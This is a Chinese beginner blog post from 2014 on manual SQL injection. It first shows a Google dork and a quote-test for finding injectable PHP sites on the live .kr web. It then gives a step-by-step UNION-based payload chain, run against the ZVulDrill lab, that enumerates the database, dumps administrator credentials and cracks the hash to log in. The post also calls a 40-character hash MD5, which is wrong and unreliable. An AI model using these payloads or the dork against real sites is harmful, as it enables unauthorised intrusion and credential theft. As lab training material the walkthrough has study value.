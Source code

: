 title: 手动sql注入（初级篇）
date: 2014-07-15 20:36
tags:
- 渗透测试
- SQL 注入
categories: SQL 注入
---

我也是才学 sql 注入一个星期，此篇文章是学给初学者看的
推荐书籍 [《sql注入攻击与防御》](http://www.ddooo.com/softdown/50160.htm)
<!--more-->

# I、找到存在sql注入的网站
## ① 方法
- 在google中输入 site:kr inurl:php?id=
- 打开出现的网址，在网址后面添加 ’  （英文逗号）如果页面出现跳转，说明可能存在sql注入

## ② 原理
一般网址都是类似  search.php?search=hello
相应的sql语句 可能是：
```
select * from table_name where column_name='hello'
```
如果在网址后面添加 ' 则sql语句为：
```
select * from table_name where column_name='hello''
```
如果网站没有进行sql注入过滤，会报错。

## ③ 演练平台
在 GitHub 有个 Web 漏洞演练项目 [ZVulDrill](https://github.com/710leo/ZVulDrill)，可以下载后部署在自己的电脑上（这里我就不教大家部署了，熟悉Web编程的大部分都会）

网页内容如下
![](http://img.blog.csdn.net/20140715201016711)

# II、检测字段长度
```
http://localhost/ZVulDrill-master/search.php?search=hello%' order by 1--%20
```
相当于sql语句
```
select * from table_name where colmun_name like '%hello%' order by 1 -- '
```

<font color="red">Tips：</font>
- MySQL有三种注释 -- 是其中一种 但是 -- 后面要跟一个空格才有效。
- 但是网址会自动去掉最后一个空格需要手动输入%20
- 注释后面的sql语句不执行

此时页面没有出错，用同样的方式 添加 order by 10
页面出错，然后 order by 5 出错，order by 4 页面正确
说明字段长  4

# III、查看数据库信息
## ① 方法:使用union语句提取数据
```
http://localhost/ZVulDrill-master/search.php?search=hello%' and 1=2 union select 1,2,2,4 --%20
```
sql语句
```
select * from table_name where column_name like '%hello%' and 1=2 union select 1,2,3,4
```
union前的sql语句中 where条件恒为假，结果集为空，整个sql语句返回的是union后面的结果集
![](http://img.blog.csdn.net/20140715201042343)

## ② 获取MySQL version user database 等相关信息
如上图所示，页面上显示 1,2 ，可以利用这个来显示我们需要的信息
```
http://localhost/ZVulDrill-master/search.php?search=hello%' and 1=2 union select 1,version(),user(),4 --%20
```
即  将 2，3 换成 version(),user()
页面如下
![](http://img.blog.csdn.net/20140715201431834)

同理将 user() 换成 database()  得到数据库名  zvuldrill

- user() ------------    wkdty@localhost
- version()  --------------   5.6.17 （5.0以上的版本都带有一个
- information_schema 的虚拟库里面存放的是所有库的信息.）
- database()   -------------  zvuldrill
# IV、获取数据库数据
## ① 获取表名
```
http://localhost/ZVulDrill-master/search.php?search=hello%' and 1=2 union select 1,2,GROUP_CONCAT(DISTINCT table_name),4 from information_schema.columns where table_schema='zvuldrill'--%20
```
![](http://img.blog.csdn.net/20140715202557175)
数据库中有3张表，对我们最有用的是admin这张表，以管理员身份进入网站可以看到各种信息
## ② 获取字段名
```
http://localhost/ZVulDrill-master/search.php?search=hello%' and 1=2 union select 1,2,GROUP_CONCAT(DISTINCT column_name),4 from information_schema.columns where table_name='admin'--%20
```
![](http://img.blog.csdn.net/20140715202931238)
## ③ 获取数据
```
http://localhost/ZVulDrill-master/search.php?search=hello%' and 1=2 union select 1,2,GROUP_CONCAT(DISTINCT admin_id,admin_name,admin_pass),4 from admin--%20
```
![](http://img.blog.csdn.net/20140715203207348)
- admin_id：1 
- admin_name：admin
- admin_pass：d033e22ae348aeb5660fc2140aec35850c4da997(md5解密之后  得到admin)
根据用户登录入口，找到后台登录入口  ，以管理员身份进入网站

